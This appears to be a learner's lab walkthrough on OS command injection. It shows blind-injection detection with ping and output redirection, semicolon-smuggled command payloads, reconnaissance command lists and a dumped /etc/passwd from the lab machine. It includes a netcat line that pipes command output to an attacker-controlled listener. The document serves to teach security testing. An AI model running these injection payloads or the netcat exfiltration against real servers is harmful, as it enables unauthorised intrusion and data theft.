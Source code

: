 Walkthrough of OS Command Injection. Demonstrate OS Command Injection and explain how to prevent it on your servers

# NOTE
- dont for get ```;```

# Blind Command Injection
Blind command injection occurs when the system call that's being made does not return the response of the call to the Document Object Model (or DOM).

![php](https://i.imgur.com/lB8diiC.png)

blind command injection occurs when the response of the HTTP request is not returned to the DOM.  You can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not.  For the purposes of this room, I made the alert tell you what was going on, but sometimes it won't be that easy.  So here are a few ways to tell whether you have blind command injection or not.

## Ping!
Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds. 

## Redirection of Output

Ping is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the `>` Bash operator redirects output to a file or process so you could try redirecting the output of `id`, `whoami`, `netstat`, `ip addr` or other useful command to see if you can see the results.

## Bypassing the Blind Injection with Netcat

In the spirit of full disclosure, there is a way to bypass the blind injection with netcat.  You are able to pipe the output of a command to a nc listener.  You could do something like ```root; ls -la | nc {YOUR_IP} {PORT}``` . This will send the output of ls -la to your netcat listener.

## Action
1. Ping the box with 10 packets.  What is this command (without IP address)?
```; ping -c <packets> <ip>```
2. Redirect the box's Linux Kernel Version to a file on the web server.  What is the Linux Kernel Version?
```; uname -r > linux.txt```. Now http://<ip>/linux.txt

more command to get kernal version? 
```console
$ uname -a
$ cat /proc/version
$ dmesg | grep Linux
```
just for fun I did: ```; cat /etc/passwd > pass.txt``` this is what I found. lol fist time os inject super cool!!
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

# Active Command Injection
Active command injection will return the response to the user.  It can be made visible through several HTML elements.


`passthru()` on [PHP's website](https://www.php.net/manual/en/function.passthru.php),

## Commands to try

**Linux**
- whoami
- id
- ifconfig/ip addr
- uname -a
- ps -ef

**Windows**
- whoami
- ver
- ipconfig
- tasklist
- netstat -an

4. What is the user's shell set as?
```cat /etc/passwd | grep www-data```

5. What version of Ubuntu is running?
```lsb_release -a```
6. Print out the MOTD.  What favorite beverage is shown?
read more about motd [MOTD](https://serverfault.com/questions/481146/there-are-two-motds-shown-when-i-login-to-my-server-using-ssh)
```console
$ find / -name 00-header; 2> /dev/null
/snap/core/8268/etc/update-motd.d/00-header 
/snap/core/9066/etc/update-motd.d/00-header 
/etc/update-motd.d/00-header 
```
# flag
```console
$ find / -name flag.txt; 2> /dev/null
```